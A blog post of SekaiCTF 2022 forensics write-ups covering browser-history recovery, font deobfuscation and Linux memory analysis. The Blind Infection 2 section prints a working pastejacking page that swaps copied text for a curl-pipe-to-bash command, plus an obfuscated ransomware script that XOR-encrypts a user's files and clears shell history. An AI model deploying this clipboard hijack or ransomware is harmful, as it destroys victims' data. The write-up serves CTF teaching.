

import InfoBox from '@/components/mdx/InfoBox.astro'
import Challenge from '@/components/mdx/Challenge.astro'

## Intro

[SekaiCTF 2022](http://2022.ctf.sekai.team/) — my first capture-the-flag which I've had the honor of organizing alongside fellow members of [Project Sekai CTF](https://sekai.team). One of the aspects of its administration was the challenge verification process; as part of it, I've ended up authoring a bunch of forensics-based writeups which I'm really proud of. They're also available on the [GitHub](https://github.com/project-sekai-ctf/sekaictf-2022) repository if you'd like to check out the rest of the challenges — I've simply ported them over here for my fancy website formatting. Enjoy!

---

## Blind Infection 1

<Challenge
  authors={["Battlemonger"]}
  category="Forensics"
  points={470}
  solves={23}
  files={["chall.zip"]}
>
  *Investigator*: It looks like your files were encrypted — do you have a backup?  
  *Me*: Online, yes, but even the backup links got encrypted. Can you help me find anything?  
</Challenge>

<InfoBox type="warning">
    **Warning**: This payload contains ransomware. Consider using a fresh virtual machine, as you may risk losing your data. Although surface analysis is safe (and the ransomware is user-triggered), proceed with caution.
</InfoBox>

### Reconnaissance

```ansi
$ tree
.
├── etc
├── home
├── root
└── snap
```

Unzipping the provided `.zip` provides us with four Linux directories: `etc/`, `home/`, `root/`, and `snap/`. Let's start off with a little bit of reconnaissance.

A good habit with these types of challenges is to check `etc/passwd`, a list of system accounts. If we `grep{:sh}` for those with root permission, we find that the user `sekaictf` was a superuser:

```ansi
$ cat etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
sekaictf:x:1000:1000:sekaictf,,,:/home/sekaictf:/bin/bash
```

Although it isn't necessarily pertinent to the challenge, make sure you check `home/sekaictf/.bash_history` alongside `grep -r "SEKAI{{:sh}` - they can be pretty handy sometimes!

### Document Recovery

Next, we'll look for user files. The `Documents/` and `Pictures/` folder of the `sekaictf` user has them, but everything seems to be encrypted with no indication of the encryption method used.

The description talks about having a backup for the encrypted files in the form of **links**, meaning we should be looking for browser-related content (i.e. search history). Ubuntu 22 stores Firefox as a `SnapCraft` app in `snap/` by default — we can also grep for the term `'firefox'{:sh}` for its location:

```ansi
home/sekaictf$ tree | grep -C 5 firefox
│   ├── german.png
│   ├── ginger.png
│   └── meme.png
├── Public
├── snap
│   ├── firefox
│   │   ├── 1551
│   │   ├── 1589
│   │   ├── common
│   │   └── current
│   └── snapd-desktop-integration
```

Firefox is located in `home/sekaictf/snap/firefox/`, while the profile information of the user is located at `firefox/common/.mozilla/firefox/p3zapakd.default/`. `p3zapakd` is the name of the user.

Firefox stores your visit history in the `places.sqlite` SQLite database (read more about how Firefox stores your information [here](https://support.mozilla.org/en-US/kb/profiles-where-firefox-stores-user-data)). You can use an [online tool](https://inloop.github.io/sqlite-viewer/) or [`sqlite3`](https://www.npmjs.com/package/sqlite3) to view it! The table we need is `moz_places{:sql}`, which is a hefty piece of work with more than 750+ URLs:


Yes, it's super meticulous, but a true forensics investigator would champ it through! Scrolling through the table, we notice that the user follows a certain trend, as following:

1. The user searches about a topic on Google
2. The user visits that appear in the search results
3. The user visits the URL https://paste.c-net.org with a subdirectory consisting of two random words (possibly to bookmark them for later)

Visiting any of these pastes and recognizing that the content should be the same as encrypted files in the `Documents/` folder is key to Part 1. This is further facilitated by the fact that names of the encrypted files in `Documents/` are very descriptive:

```ansi
home/sekaictf/Documents$ ls
aes.txt           ippsec.txt       python.txt         warandpeace12.txt
assignment.txt    jokes.txt        roblox.txt         warandpeace13.txt
billionaires.txt  joke.txt         robomagellan.txt   warandpeace14.txt
brainteasers.txt  jsinterview.txt  rsa.txt            warandpeace15.txt
countries.txt     juggle.txt       science.txt        warandpeace1.txt
ctfwins.txt       katana.txt       sekai.txt          warandpeace2.txt
elements.txt      leetcode.txt     shakespeare.txt    warandpeace3.txt
excuses.txt       loi.txt          song.txt           warandpeace4.txt
flag.txt          maths.txt        sql.txt            warandpeace5.txt
fortnite.txt      oscp.txt         tools.txt          warandpeace6.txt
ginger.txt        overflow.txt     volatility.txt     warandpeace7.txt
girlfriend.txt    privesc.txt      warandpeace10.txt  warandpeace8.txt
graphql.txt       program.txt      warandpeace11.txt  warandpeace9.txt
```

Instinctively, we would want to visit all these pastes.

There are 50 instances of the URL https://paste.c-net.org in the table and visiting them one-by-one isn't very 1337 h4xx0r. We can execute some simple SQL on the table to extract all instances:

```sql
SELECT url FROM 'moz_places' WHERE URL like '%paste%'
```



Let's write a simple `curl` script with Python:


```py title="solve.py" caption="Brute-forcing URL curls" showLineNumbers
import requests

urls = [
    "https://paste.c-net.org/HitchedGlaser",
    "https://paste.c-net.org/HavingGaining",
    "https://paste.c-net.org/ElevenRejected",
    "https://paste.c-net.org/LovedCyborg",
    "https://paste.c-net.org/DictateSplinter",
    "https://paste.c-net.org/WagonsClips",
    "https://paste.c-net.org/BegunCarols",
    "https://paste.c-net.org/SweptReport",
    "https://paste.c-net.org/DetectedParanoid",
    "https://paste.c-net.org/RomanovBaptiste",
    "https://paste.c-net.org/GluttonyBamboo",
    "https://paste.c-net.org/WoodsCochran",
    "https://paste.c-net.org/YellingShelf",
    "https://paste.c-net.org/ServesTerrence",
    "https://paste.c-net.org/ChaperonDouche",
    "https://paste.c-net.org/WestleyCompany",
    "https://paste.c-net.org/DiagnoseEgypt",
    "https://paste.c-net.org/InquireExplicit",
    "https://paste.c-net.org/RubbleAcute",
    "https://paste.c-net.org/MilnerFantasy",
    "https://paste.c-net.org/ArticleOutdoors",
    "https://paste.c-net.org/DigitAccosted",
    "https://paste.c-net.org/DaylightMaguire",
    "https://paste.c-net.org/GaugeComposed",
    "https://paste.c-net.org/OlympusSeminar",
    "https://paste.c-net.org/LackeysEternity",
    "https://paste.c-net.org/CoachedBarks",
    "https://paste.c-net.org/StungFarted",
    "https://paste.c-net.org/BlisterQuebec",
    "https://paste.c-net.org/BiancaShanghai",
    "https://paste.c-net.org/ReboundStopping",
    "https://paste.c-net.org/EmptyPaste",
    "https://paste.c-net.org/ToursForks",
    "https://paste.c-net.org/GuineaShovel",
    "https://paste.c-net.org/LettinAverage",
    "https://paste.c-net.org/CuveeBouncer",
    "https://paste.c-net.org/CraziesCritique",
    "https://paste.c-net.org/QuitterTasks",
    "https://paste.c-net.org/MashburnEdmund",
    "https://paste.c-net.org/PollsFenwick",
    "https://paste.c-net.org/FillsTaunt",
    "https://paste.c-net.org/RussiansEstimate",
    "https://paste.c-net.org/HughesRecant",
    "https://paste.c-net.org/CelloFilmed",
    "https://paste.c-net.org/CrushMalcolm",
    "https://paste.c-net.org/ProphecyWestside",
    "https://paste.c-net.org/GardenOccur",
    "https://paste.c-net.org/QuittingPeterson",
    "https://paste.c-net.org/BainesPouty",
]

for url in urls:
    r = requests.get(url)
    if "SEKAI{" in r.text:
        print(r.text)
```

Running the script:

```ansi
$ python3 solve.py
SEKAI{R3m3b3r_k1Dz_@lway5_84cKUp}
```

<InfoBox type="flag">
    **Blind Infection 1**: `SEKAI{R3m3b3r_k1Dz_@lway5_84cKUp}`
</InfoBox>

---

## Blind Infection 2

<Challenge
  authors={["Battlemonger"]}
  category="Forensics"
  points={488}
  solves={15}
  files={["chall.zip"]}
>
  *Investigator*: Here are your backups, but what about rest of your files?  
  *Me*: Umm...  
  *Investigator*: I'm gonna need more details regarding what exactly you were doing.  
</Challenge>

<InfoBox type="warning">
  **Warning**: This payload contains ransomware. Consider using a fresh virtual machine, as you may risk losing your data. Although surface analysis is safe (and the ransomware is user-triggered), proceed with caution.
</InfoBox>

We've managed to restore the contents of `Documents/`, but this user has unfortunately failed to backup `Pictures/`. To decrypt them, we need to know the encryption method used. As of now, we only have the plaintext and ciphertext from Part 1, which currently don't prove that useful. We need more details.

### The SQL Rabbit Hole

Continuing to scroll through browser history, near the end of the table we come across instances of the user searching about 'virus' and 'virus remover'. This probably happened after the user's files got encrypted. Looking at the URL visits just before this, we see that the user was downloading various rhythm game-related items, including [osu!](https://osu.ppy.sh/) beatmaps and an `.apk` of [Project Sekai](https://projectsekai.fandom.com/wiki/Project_SEKAI_COLORFUL_STAGE!). This rabbit hole eventually led to a string of suspicious websites — including https://sekaictf-tunes.netlify.app:


```html title="index.html" caption="Source Code of Sussy Website" showLineNumbers
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    </head>
    <body>
        <!-- Source - https://security.love/Pastejacking/ --> Download exclusive Sekai Music!!! <br>
        <p>wget sekairhythms.com/epicmusic.zip</p>
        <script>
            document.addEventListener('copy', function(e) {
                console.log(e);
                e.clipboardData.setData('text/plain', 'curl https://storage.googleapis.com/sekaictf/Forensics/muhahaha.sh | bash');
                e.preventDefault();
            });
        </script>
    </body>
</html>
```

Check out this snippet above: instead of copying `wget sekairhythms.com/epicmusic.zip{:sh}`, we end up actually copying `curl https://storage.googleapis.com/sekaictf/Forensics/muhahaha.sh | bash{:sh}`, which is a malicious bash script.

This is the premise of the challenge. **Never copy and paste code/commands from internet blindly**! That's where the challenge name comes from — "Blind Infection"!

This is a classic [pastejacking](https://www.geeksforgeeks.org/what-is-pastejacking/) attack. Let's _not_ copy it into the terminal and instead analyze the `.sh` file that's `curl{:sh}`'ed. Visit the [original link](https://storage.googleapis.com/sekaictf/Forensics/muhahaha.sh) to see the raw code:

```bash title="muhahaha.sh" caption="Malicious Obfuscated Bash Script" showLineNumbers
z="
";Uz='e da';Cz='----';QBz=' key';Wz='ou!!';FBz='open';NBz='s -r';nz='er/b';Jz=' gon';aBz='h_hi';tz='for ';Bz=' '\''--';PBz='le $';Rz='them';Pz=' '\''Br';Sz=' bac';Iz=' are';WBz='rm x';YBz='> ~/';Nz='ly!!';Qz='ing ';DBz='/*';ez='erco';vz=' in ';MBz='xor-';Oz='!'\''';UBz='xt';OBz=' $fi';Tz='k, W';pz='ies/';iz='ange';KBz='y.tx';Mz='nent';Yz=' -q ';CBz='ures';Lz='erma';cz='gith';cBz='y';Az='echo';JBz='> ke';lz='les/';wz='~/Do';BBz='Pict';Hz='iles';hz='m/sc';bBz='stor';uz='file';RBz='.txt';XBz=' '\'''\'' ';gz='t.co';yz='nts/';xz='cume';Zz='http';VBz='done';EBz='do';Gz='ur f';HBz='rand';kz='r-fi';ZBz='.bas';sz='or-f';Ez=' '\''Al';dz='ubus';bz='raw.';az='s://';oz='inar';LBz='t';Kz='e, p';ABz='* ~/';Xz='wget';Fz='l yo';SBz='rm k';GBz='ssl ';IBz=' 16 ';mz='mast';TBz='ey.t';Vz='re y';fz='nten';Dz='---'\''';jz='o/xo';qz='x86_';rz='64/x';
eval "$Az$Bz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Dz$z$Az$Ez$Fz$Gz$Hz$Iz$Jz$Kz$Lz$Mz$Nz$Oz$z$Az$Pz$Qz$Rz$Sz$Tz$Uz$Vz$Wz$Oz$z$Az$Bz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Dz$z$Xz$Yz$Zz$az$bz$cz$dz$ez$fz$gz$hz$iz$jz$kz$lz$mz$nz$oz$pz$qz$rz$sz$Hz$z$tz$uz$vz$wz$xz$yz$ABz$BBz$CBz$DBz$z$EBz$z$FBz$GBz$HBz$IBz$JBz$KBz$LBz$z$MBz$uz$NBz$OBz$PBz$uz$QBz$RBz$z$SBz$TBz$UBz$z$VBz$z$WBz$sz$Hz$z$Az$XBz$YBz$ZBz$aBz$bBz$cBz"
```

Looks like it's obfuscated by defining a crap ton of environmental variables and evaluating the concatenated contents. To deobfuscate, simply change the `eval{:sh}` term to `echo{:sh}` to see what actually runs:

```sh title="muhahaha.sh" caption="Deobfuscated Bash Script" showLineNumbers
echo '---------------------------------------------------------'
echo 'All your files are gone, permanently!!!'
echo 'Bring them back, We dare you!!!'
echo '---------------------------------------------------------'
wget -q https://raw.githubusercontent.com/scangeo/xor-files/master/binaries/x86_64/xor-files
for file in ~/Documents/* ~/Pictures/*
do
openssl rand 16 > key.txt
xor-files -r $file $file key.txt
rm key.txt
done
rm xor-files
echo '' > ~/.bash_history
```

Let's do a quick analysis. This script:

1. Downloads a binary quietly
2. For each file in the `Documents/` and `Pictures/` folder, it:
    - Generates a 16-byte key
    - Performs a XOR operation with the key
    - Removes the key (meaning the key is different every time)
3. Deletes the binary and clears the contents of `~/.bash_history`

We now know a simple XOR was used to encrypt `Pictures/`. However, we don't know the keys, and it would take until the heat death of the universe to brute force 16 bytes. Additionally, we can't extract utilize known-plaintext attacks on Part 1 since each key is unique. We'll need a different solution.

We know that:

1. The files in `Pictures/` are in the `.png` format
2. XOR is reversible if we have a key
3. We do not have a key readily available

But, there is a weakness! If we research a bit into the `.png` format, we learn that the first 16 bytes of a `.png` are always same:

```text
89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52
Header Block                         IHDR Block
```

With this, we can XOR the first 16 bytes of each encrypted `.png` with this as the key to obtain the original, unique key. We can now decrypt each picture with this Python script:

```py title="solve.py" caption="Decrypting the Pictures" showLineNumbers
import os
import binascii

files = os.listdir('Pictures')
header = binascii.unhexlify(b'89504E470D0A1A0A0000000D49484452')
os.system('wget -q https://raw.githubusercontent.com/scangeo/xor-files/master/binaries/x86_64/xor-files')

for file in files:
    path = 'Pictures/'+file
    f = open(path,'rb').read()
    first_16_bytes = f[:16]
    key = b''
    for i in range(len(header)):
        key += chr(header[i]^first_16_bytes[i]).encode('iso-8859-1')
    with open('key.txt','wb') as k:
        k.write(key)
    os.system('xor-files -r '+path+' '+path+' key.txt')

os.system('rm key.txt')
os.system('rm xor-files')
```

Use the `strings` command on `flag.png` to flag the challenge.

<InfoBox type="flag">
  **Blind Infection 2**: `SEKAI{D4R3_4CC3PT38_4N8_4U5T38}`
</InfoBox>

---

## Broken Converter

<Challenge
  authors={["blueset"]}
  category="Forensics"
  points={100}
  solves={94}
  files={["Assignment-broken.xps"]}
>
  Miku has finally finished her assignment and is ready to submit - but for some reason, the school requires all assignments to be submitted as `.xps` files. Miku found a converter online and used the converted file for submission. The file looked good at first, but it seems as if there's something broken in the converter. Can you help her figure out what's wrong?
</Challenge>

<InfoBox type="info">
  **Note**: This challenge shares the same file as *flag Mono*.
</InfoBox>

Reading the Wikipedia page for [Open XML Paper Specification](https://en.wikipedia.org/wiki/Open_XML_Paper_Specification)/`.xps` files, we can see that `Assignment-broken.xps` is actually a `.zip` archive:

> An XPS file is a [ZIP](<https://en.wikipedia.org/wiki/ZIP_(file_format)> 'ZIP (file format)') archive using the [Open Packaging Conventions](https://en.wikipedia.org/wiki/Open_Packaging_Conventions 'Open Packaging Conventions'), containing the files which make up the document. These include an XML markup file for each page, text, [embedded fonts](https://en.wikipedia.org/wiki/Odttf 'Odttf'), raster images, 2D [vector graphics](https://en.wikipedia.org/wiki/Vector_graphics 'Vector graphics'), as well as the [digital rights management](https://en.wikipedia.org/wiki/Digital_rights_management 'Digital rights management') information. The contents of an XPS file can be examined by opening it in an application which supports ZIP files.

Renaming the file extension to `.zip` will provide us with some files:


In `Resources/` we can find `02F30FAD-6532-20AE-4344-5621D614A033.odttf`, which is an "Obfuscated OpenType" file:


The ODTTF [Wikipedia](https://en.wikipedia.org/wiki/ODTTF) page states that `.odttf` files are obfuscated by performing a XOR operation on the first 32 bytes of the font file, using its GUID (or the filename) as the key:

> According to the source code of [Okular](https://en.wikipedia.org/wiki/Okular 'Okular') (see function `parseGUID(){:c}` and method `XpsFile::loadFontByName(){:c}`), the first 32 bytes of the font file are obfuscated by XOR using the font file name (a GUID). The rest of the file is normal OpenType.

This is also mentioned in section 9.1.7.3 of the [XPS Standard](https://www.ecma-international.org/wp-content/uploads/XPS-Standard.pdf):

> Perform an XOR operation on the first 32 bytes of the binary data of the obfuscated font part with the array consisting of the bytes referred to by the placeholders B37, B36, B35, B34, B33, B32, B31, B30, B20, B21, B10, B11, B00, B01, B02, and B03, in that order and repeating the array once. The result is a non-obfuscated font.

Although you can totally create a XOR script and perform it manually, you can also find scripts online. [odttf2ttf](https://github.com/somanchiu/odttf2ttf) provides an online demo [here](https://somanchiu.github.io/odttf2ttf/js/demo), which is a simple drag-and-drop with instant conversion:


Now that it's deobfuscated, we can open the file in Windows Font Viewer. The phrase `GlYPHZ,W3|!.d0n&}` is visible at the top, but the rest of the flag isn't properly ordered:


However, opening the `.ttf` file in programs that sort by ASCII, such as [FontForge](https://fontforge.org/) or [FontDrop!](https://fontdrop.info/), will yield a flag:


<InfoBox type="flag">
  **Broken Converter**: `SEKAI{sCR4MBLeD_a5ci1-FONT+GlYPHZ,W3|!.d0n&}`
</InfoBox>

---

## flag Mono

<Challenge
  authors={["blueset"]}
  category="Forensics"
  points={368}
  solves={47}
  files={["Assignment-broken.xps"]}
>
  When writing the assignment, Miku used a font called **flag Mono**. Despite it looking just like a regular monospaced font, it claims itself to be **stylistic** in various ways.  
  "Perhaps there is something special about it", Miku thought.
</Challenge>

<InfoBox type="info">
  **Note**: This challenge shares the same file as *Broken Converter*.
</InfoBox>

If you inspect the font info in [FontForge](https://fontforge.org/) with <kbd>Ctrl</kbd> + <kbd>Shift</kbd> + <kbd>F</kbd>, you can see in the Lookup tab that four different "Style Sets" have been implemented into this font:


These are called "OpenType Stylistic Sets." According to its official Microsoft [documentation](https://docs.microsoft.com/en-us/typography/opentype/spec/features_pt#ssxx):

> In addition to, or instead of, stylistic alternatives of individual glyphs [...], some fonts may contain sets of stylistic variant glyphs corresponding to portions of the character set, e.g. multiple variants for lowercase letters in a Latin font.

In FontForge you can actually view the ruleset for these styles with the `Edit Data` button. This is the ruleset for `ss01`:


> ampersand quotesingle | a @&lt;Single Substitution lookup 4&gt; | g  
> | f @&lt;Single Substitution lookup 4&gt; | l a g  
> ampersand quotesingle parenleft | g @&lt;Multiple Substitution lookup 5&gt; |  
> ampersand | l @&lt;Single Substitution lookup 4&gt; | a g

Let's test out typing `flag` on [FontDrop!](https://fontdrop.info/) and changing the stylistic set:


<InfoBox type="flag">
  **flag Mono**: `SEKAI{OpenTypeMagicGSUBIsTuringComplete}`
</InfoBox>

---

## Symbolic Needs 1

<Challenge
  authors={["Battlemonger"]}
  category="Forensics"
  points={467}
  solves={24}
  files={["memdump"]}
>
  We recently got hold of a cryptocurrency scammer and confiscated his laptop.  
  Analyze the memdump. Submit the string you find wrapped with `SEKAI{}`.
</Challenge>

Inflating the `.zip`, we are given a `.mem` memory dump of a machine of an unknown operating system. We will be using the [Volatility 3](https://www.volatilityfoundation.org/) framework to analyze it.

Firstly, clone the [repository](https://github.com/volatilityfoundation/volatility3.git) on GitHub:

```ansi
$ git clone https://github.com/volatilityfoundation/volatility3.git
$ cd volatility3
```

Since we'll need to find a debugging package for this memory dump later, we need to run the `banner` command to identify the exact operating system, version and kernel:

```ansi
$ python3 vol.py -f dump.mem banner
Volatility 3 Framework 2.3.1
Progress:  100.00        PDB scanning finished                      
Offset  Banner

0x42400200  Linux version 5.15.0-43-generic (buildd@lcy02-amd64-076) (gcc (Ubuntu 11.2.0-19ubuntu1) 11.2.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #46-Ubuntu SMP Tue Jul 12 10:30:17 UTC 2022 (Ubuntu 5.15.0-43.46-generic 5.15.39)
0x437c3718  Linux version 5.15.0-43-generic (buildd@lcy02-amd64-076) (gcc (Ubuntu 11.2.0-19ubuntu1) 11.2.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #46-Ubuntu SMP Tue Jul 12 10:30:17 UTC 2022 (Ubuntu 5.15.0-43.46-generic 5.15.39)9)
```

This identifies the following:

-   **OS**: Ubuntu 22.04
-   **Kernel**: Linux version 5.15.0-43-generic

<InfoBox type="info">
  **Note**: Since these are very recent versions, there were no readily available Volatility profiles. Honestly, I couldn't make Volatility 2 work with Ubuntu 22 even after successful profile creation (`KeyError: 'DW_AT_data_member_location'`). Let me know if you were able to, since everyone's learning! :)
</InfoBox>

### Profile Creation + Symbol Table

In order to run Volatility plugins we need to build a [symbol table](https://volatility3.readthedocs.io/en/latest/symbol-tables.html#) in the `.json` format. They can be generated from [DWARF](https://en.wikipedia.org/wiki/DWARF) files using the [dwarf2json](https://github.com/volatilityfoundation/dwarf2json) tool. The hardest part is probably finding the kernel with debugging symbols for Linux version `5.15.0-43-generic`. A complete list is available [here](http://ddebs.ubuntu.com/pool/main/l/linux/), but [`linux-image-unsigned-5.15.0-43-generic-dbgsym_5.15.0-43.46_amd64.ddeb`](http://ddebs.ubuntu.com/pool/main/l/linux/linux-image-unsigned-5.15.0-43-generic-dbgsym_5.15.0-43.46_amd64.ddeb) is the version we need. After inflating the archive, the relevant file we need is the `vmlinux-5.15.0-43-generic` DWARF located in `usr/lib/debug/boot`.

Next, we'll clone the [dwarf2json](https://github.com/volatilityfoundation/dwarf2json) tool from the Volatility repository and build it:

```ansi
$ git clone https://github.com/volatilityfoundation/dwarf2json  
$ cd dwarf2json 
$ go build  
```

Finally, we can run:

```ansi
$ dwarf2json linux --elf vmlinux-5.15.0-43-generic > ubuntu22.json
```

Copy the symbol table to `volatility3/volatility3/symbols/linux`, and your profile should be set up!

Once we have a valid `symbols.json`, we can run Volatility 3 plugins. The first one we always run is `linux.bash`, to display bash history:

```ansi
$ python3 vol.py -f dump.mem linux.bash
Volatility 3 Framework 2.3.1
Progress:  100.00        Stacking attempts finished                 
PID Process CommandTime Command

1863    bash    2022-08-29 13:45:56.000000    72.48.117.53.84.48.110.95.119.51.95.52.114.51.95.49.110.33.33.33
```

Those are easily identifiable as ASCII codes. Convert `72 48 117 53 84 48 110 95 119 51 95 52 114 51 95 49 110 33 33 33` to text and get the flag:

<InfoBox type="flag">
  **Symbolic Needs 1**: `SEKAI{H0u5T0n_w3_4r3_1n!!!}`
</InfoBox>

---

## Symbolic Needs 2

<Challenge
  authors={["Battlemonger"]}
  category="Forensics"
  points={482}
  solves={18}
  files={["memdump"]}
>
  Recover the private key of the wallet address `0xACa5872e497F0Cc626d1E9bA28bAEC149315266e`.  
  Submit the key wrapped with `SEKAI{}`.
</Challenge>

Let's follow up from the last proglem with the `linux.psaux` plugin, to gather and display all processes:

```ansi
$ python3 vol.py -f dump.mem linux.psaux
Volatility 3 Framework 2.3.1
Progress:  100.00        Stacking attempts finished                 
PID PPID    COMM    ARGS
...
1731    985 gsd-xsettings    /usr/libexec/gsd-xsettings
1787    985 ibus-x11    /usr/libexec/ibus-x11
1845    985 gnome-terminal- /usr/libexec/gnome-terminal-server
1863    1845    bash    bash
1878    1863    ncat    ncat -lvnp 1234 -c echo N4GQ2CQAAAAAAEFG5JRPEAIAADRQAAAAAAAAAAAAAAAAAAAAAAAAACIAAAAEAAAAABZ6QAAAABSAAZABNQAFUAD2A5SQA2QBMQBBSAC2AJLQA3QLAEAACAABABSQGZADQMAQCADFASBQAAIALEAGOAC2AVSQMZAEMQCYGAUPBZNAOZIHUAEKCAFABGQQAWQFK4AGIAIEAACABAYDAEAG4CBRABZS65YBAEAACAABABMQAAIAMQDFUCTFBNSQVAYBMQDWIAMFAIMQAWQKMUGGKCVABVSQ4ZIKQMAWICDFBZSQVAYBMQEBMAAYAALQBIIBQMAVUCTHABNA6ZIQMQAGKDTFBKBQCZAIQMBUIAC5CRNBCZIPUAJGKBLFCNSQUZIRMUIWICAXACCQEGIAMQDYGATEAIMAAGIAUEAQCADRLFSQGZAJQMAQCADEAFJQAKIK5EAAAAAAJ3UQCAAAAB5BQVLTMFTWKORAFYXXOYLMNRSXIIDQMFZXG53POJSHUDLCNFYDGOLMNFZXILTUPB2NUALSNQKAAAAAABS6KHWNHGMBH4AWTJ3BE3XKCYFWPVQQSR6WWFSHC2WEUE3P5AP7G46OA3IBWAIA5EBAAAAA5EGAAAAA3ICVO4TPNZTSSFG2ANZXS462ARQXEZ3W3IEHAYLTON3W64TE3ICXA4TJNZ2NUBDFPBUXJWQFO5XXEZDT3ICG64DFN3NACZW2ARZGKYLE3IFHG4DMNF2GY2LOMVZ5UBDDN5SGLWQDMJUW5WQDON2HFWQFPJTGS3DM3IBWYZLO3IEG23TFNVXW42LD3ICXEYLOM5S5UALJ3IDGC4DQMVXGJWQDNFXHJKIAOINQAAAAOINQAAAA7IEHIZLTOQZC44DZ3IEDY3LPMR2WYZJ6AEAAAADTEIAAAAAIAABAEDQBAYAQQAIIAECAGDACBYARZ7YEAMIAGIQBAQBRIARGAEGAE=== | base32 -d > file.pyc
1886    1147    update-notifier update-notifier
1911    1863    sudo    sudo insmod LiME/src/lime-5.15.0-43-generic.ko path=dump.mem format=lime
1918    1911    sudo    sudo insmod LiME/src/lime-5.15.0-43-generic.ko path=dump.mem format=lime
...
```

It looks like the scammer was serving some base32 through Netcat. We also notice that it's piped into a `.pyc` file, which is Python bytecode.

Run the command `echo [PUT YOUR BASE32 HERE] | base32 -d > file.pyc` to convert this base32 into a binary. Let's run the `.pyc` with Python3:

```ansi
$ python3 file.pyc 
Usage: ./wallet password
```

Passing a random argument results in a `FileNotFoundError`:

```ansi
$ python3 file.pyc password
Traceback (most recent call last):
  File "test2.py", line 12, in <module>
FileNotFoundError: [Errno 2] No such file or directory: 'bip39list.txt'
```

We can find this wordlist in the [bitcoin/bips](https://github.com/bitcoin/bips/blob/master/bip-0039/english.txt) repository. If you run the binary again with the same argument it just outputs "Wrong." We'll need to disassemble this.

Disassemble the bytecode with the `dis` module:

```py title="disassembled.py" caption="Disassembling the Python Bytecode" showLineNumbers
import dis
import marshal

with open('file.pyc', 'rb') as f:
    f.seek(16)
    print(dis.dis(marshal.load(f)))
```

```ansi
$ python3 disassembled.py 
  1           0 LOAD_CONST               0 (0)
              2 LOAD_CONST               1 (None)
              4 IMPORT_NAME              0 (sys)
              6 STORE_NAME               0 (sys)

  3           8 SETUP_FINALLY            7 (to 24)

  4          10 LOAD_NAME                0 (sys)
             12 LOAD_ATTR                1 (argv)
             14 LOAD_CONST               2 (1)
             16 BINARY_SUBSCR
             18 STORE_NAME               2 (password)
             20 POP_BLOCK
             22 JUMP_FORWARD            11 (to 46)

  5     >>   24 POP_TOP
             26 POP_TOP
             28 POP_TOP

  6          30 LOAD_NAME                3 (print)
             32 LOAD_CONST               3 ('Usage: ./wallet password')
             34 CALL_FUNCTION            1
             36 POP_TOP

  7          38 LOAD_NAME                4 (exit)
             40 CALL_FUNCTION            0
             42 POP_TOP
             44 POP_EXCEPT

 10     >>   46 BUILD_LIST               0
             48 STORE_NAME               5 (words)

 12          50 LOAD_NAME                6 (open)
             52 LOAD_CONST               4 ('bip39list.txt')
             54 LOAD_CONST               5 ('r')
             56 CALL_FUNCTION            2
             58 SETUP_WITH              14 (to 88)
             60 STORE_NAME               7 (f)

 13          62 LOAD_NAME                7 (f)
             64 LOAD_METHOD              8 (read)
             66 CALL_METHOD              0
             68 LOAD_METHOD              9 (splitlines)
             70 CALL_METHOD              0
             72 STORE_NAME               5 (words)
             74 POP_BLOCK

 12          76 LOAD_CONST               1 (None)
             78 DUP_TOP
             80 DUP_TOP
             82 CALL_FUNCTION            3
             84 POP_TOP
             86 JUMP_FORWARD             8 (to 104)
        >>   88 WITH_EXCEPT_START
             90 POP_JUMP_IF_TRUE        47 (to 94)
             92 RERAISE                  1
        >>   94 POP_TOP
             96 POP_TOP
             98 POP_TOP
            100 POP_EXCEPT
            102 POP_TOP

 15     >>  104 LOAD_CONST               6 (75673125099835840306362297188218306412669859836254678874904603942583570317024638985472)
            106 STORE_NAME              10 (code)

 18         108 LOAD_NAME               11 (bin)
            110 LOAD_NAME               10 (code)
            112 CALL_FUNCTION            1
            114 LOAD_CONST               7 (2)
            116 LOAD_CONST               1 (None)
            118 BUILD_SLICE              2
            120 BINARY_SUBSCR
            122 STORE_NAME              10 (code)

 19         124 LOAD_NAME               12 (str)
            126 LOAD_NAME               10 (code)
            128 LOAD_METHOD             13 (zfill)
            130 LOAD_NAME               14 (len)
            132 LOAD_NAME               10 (code)
            134 CALL_FUNCTION            1
            136 LOAD_CONST               8 (12)
            138 LOAD_NAME               14 (len)
            140 LOAD_NAME               10 (code)
            142 CALL_FUNCTION            1
            144 LOAD_CONST               8 (12)
            146 BINARY_MODULO
            148 BINARY_SUBTRACT
            150 BINARY_ADD
            152 CALL_METHOD              1
            154 CALL_FUNCTION            1
            156 STORE_NAME              10 (code)

